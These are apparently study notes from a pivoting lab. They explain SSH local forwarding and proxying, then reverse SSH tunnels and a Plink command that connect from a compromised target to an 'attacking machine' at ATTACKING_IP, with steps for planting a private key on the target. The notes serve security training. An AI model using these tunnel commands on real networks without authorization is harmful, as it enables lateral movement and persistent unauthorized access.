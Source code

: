 Forwarding
* a forward or "local" SSH tunnel
* two methods
  * port forwarding and proxying
* port forwarding uses ssh -L, L links to a Local port
  * example: ssh -L 8000:1.2.3.4:80 user@1.2.3.8 -fN
    * -L links to a Local port which in this case is 8000
    * 1.2.3.4:80 is what we are linking the Local port 8000 to
    * user@1.2.3.8 is the host we have SSH access to
    * -f backgrounds the shell
    * -N doesn't execute commands
* proxying uses ssh -D, D opens a local port for your proxy
  * example: ssh -D 1234 user@1.2.3.8 -fN
    * -D opens port 1234 for the proxy
    * user@1.2.3.8 is the host we have SSH access to
    * -f backgrounds the shell
    * -N doesn't execute commands

Reverse
* used to access your attacking machine from the target
* setup
  * generate throwaway ssh keys with ssh-keygen on attack box
  * copy public key, prefix it with
    ```
    command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
    ```
  * paste into authorized_keys on attack box
  * copy private key to target
* create a reverse connection with ssh -R
  * connect to the host we have SSH access to, 1.2.3.8
  * use ssh -R to create a reverse connection to another box
  * ssh -R 8000:1.2.3.4:80 user@5.6.7.8 -i keyfile -fN
    * -R creates the reverse connection
    * 8000 is the local port on 1.2.3.8
    * 1.2.3.4:80 is the other box you can reach from 1.2.3.8
    * user@5.6.7.8 is your attacking machine
    * -i to specify the private key
    * -f backgrounds the shell
    * -N doesn't execute commands

# Task 12 - Pivoting - Plink
Plink.exe is the Windows CLI version of Putty.  To use keys from ssh-keygen you need to convert them with puttygen, puttygen keyfile -o output.ppk

To create a reverse connection:
```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

# Task 13 - Pivoting - Socat
Socat is great for fully stable shells, but is often not installed.  
